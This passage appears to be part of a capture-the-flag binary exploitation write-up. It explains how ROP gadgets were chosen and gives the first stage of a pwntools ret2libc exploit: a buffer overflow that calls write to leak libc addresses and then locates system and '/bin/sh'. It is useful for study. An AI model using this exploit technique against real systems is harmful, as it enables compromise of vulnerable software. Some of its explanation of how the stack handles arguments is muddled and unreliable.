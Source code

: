 I’ll choose **`pop esi ; pop edi ; pop ebp ; ret`** and **`pop ebx ; ret`**. Because
using **`pop esi; pop edi; pop ebp; ret`** and **`pop ebx; ret`** in x86 ROP helps properly set up function arguments on the stack. The first gadget (**`pop esi; pop edi; pop ebp; ret`**) pops three values off the stack, aligning or discarding unwanted data and placing required arguments into specific registers or stack positions. The second gadget (**`pop ebx; ret`**) sets another argument (like `fd`, `buf`, or `count`) for the target function. These gadgets ensure the stack matches the expected layout for the function call, as `x86` functions rely on arguments passed in reverse order via the stack.

- **Part 1 of exploit**

    ```python
    pop_three_ret = 0x08048689
    pop_one_ret = 0x080483d9
    # read_plt = exe.plt['read']
    # read_got = exe.got['read']
    # puts_plt = exe.plt['puts']
    # write_plt = exe.plt['write']
    # main = exe.sym['main']

    # Stage 1: Leak libc address

    # write(1,read@got,0x40)
    pl = b'A' * 0x48
    pl += p32(exe.plt.write)
    pl += p32(pop_three_ret)
    pl += p32(0x1)
    pl += p32(exe.got.read)
    pl += p32(0x40)
    pl += p32(exe.sym.main)
    s(pl)

    ru(b'A'*0x40)
    leak_libc = u32(rnb(4))
    libc.address = leak_libc - libc.sym.read
    slog("Libc leak",leak_libc)
    slog("Libc base", libc.address)
    slog("System", libc.sym.system)
    slog("/bin/sh", next(libc.search(b'/bin/sh')))
    ```

    So here the reason for using the **`pop_three_ret`** gadget in this exploit is to correctly set up the three arguments required by the `write` function in the right order on the stack. Since `write` expects its arguments in reverse order (first `count`, then `buf`, and lastly `fd`), the `pop_three_ret` gadget helps align the stack by popping values onto it in the correct sequence. This ensures that when the `write` function is called, it receives the correct arguments: `0x1` (`stdout`), `exe.got.read` (the address of `read` in the GOT), and `0x40` (the number of bytes to write).
